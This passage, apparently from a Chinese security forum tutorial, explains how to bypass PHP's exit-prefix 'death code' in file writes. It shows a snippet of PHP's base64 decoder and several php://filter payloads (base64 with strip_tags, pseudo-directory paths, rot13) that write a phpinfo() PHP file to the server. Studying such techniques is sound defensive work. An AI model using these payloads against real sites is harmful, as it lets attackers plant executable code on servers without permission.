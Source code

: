 ```c
                break;
        }
        i++;
    }

    /* fail if the input is truncated (only one char in last group) */
    if (strict && i % 4 == 1) {
        goto fail;
    }

    /* fail if the padding length is wrong (not VV==, VVV=), but accept zero padding
     * RFC 4648: "In some circumstances, the use of padding [--] is not required" */
    if (strict && padding && (padding > 2 || (i + padding) % 4 != 0)) {
        goto fail;
    }

    *outl = j;
    out[j] = '\0';

    return 1;

fail:
    return 0;
}
```

注意到`if (!strict)`这个判断，也就是在严格模式下他就会对未知字符和空白字符进行跳过，然后这个地方我也去用gpt辅助了一下，可以在php环境变量之中将其改为非严格模式就可以对`=`号的内容继续解码，所以我就去起了一个docker，但是还是打不通，文件可以生成但是没办法写入内容就很奇怪，（所以在这里还是断了）。

### 去掉等号之过滤器嵌套base64

这里S1maple师傅的playload：`php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../s1mple.php`  
这里利用了伪目录的方法让他生成正常的文件名

![filterchain4.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4ffa74e9ed14e036285adebfbb4dffaa7e1dd8f9.png)

### 另类base64

playload:

```php
php://filter/<?|string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../delete.php
```

这里的思路就是将=号写到php的标识符中进行过滤掉然后再进行转码再分解死亡代码

### rot13

这个相对于base64就不是利用特性绕过，所以相对于好用一些

```php
php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=delete.php
```

